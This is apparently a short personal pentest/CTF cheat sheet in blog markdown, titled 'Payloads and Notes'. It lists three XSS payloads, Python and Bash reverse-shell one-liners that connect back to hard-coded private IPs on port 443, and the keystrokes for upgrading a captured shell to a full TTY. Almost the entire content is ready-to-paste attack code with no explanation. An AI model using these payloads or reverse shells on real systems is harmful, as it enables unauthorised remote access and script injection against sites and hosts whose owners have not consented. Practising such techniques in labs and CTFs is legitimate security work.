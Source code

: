 ```yaml
---
title: Payloads and Notes
date: 2023-06-04 00:49:50 -0300
categories: [Hacking, Web Exploitation]
tags: [hacking, payloads, post exploitation]     # TAG names should always be lowercase
---
```


# Payloads and Notes
Information that I found useful during pentests or ctf's

## Payloads

### XSS
```
<p ondragend=[1].map(prompt) draggable="true">dragMe</p>
<img/src=x onerror=prompt(1)>
<svg onload=alert(1)<
```

### Reverse Shells
```
#Python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.8",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

#Bash
bash -c '/bin/bash -i >& /dev/tcp/10.9.34.191/443 0>&1'
```

### TTY Treatment
```
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
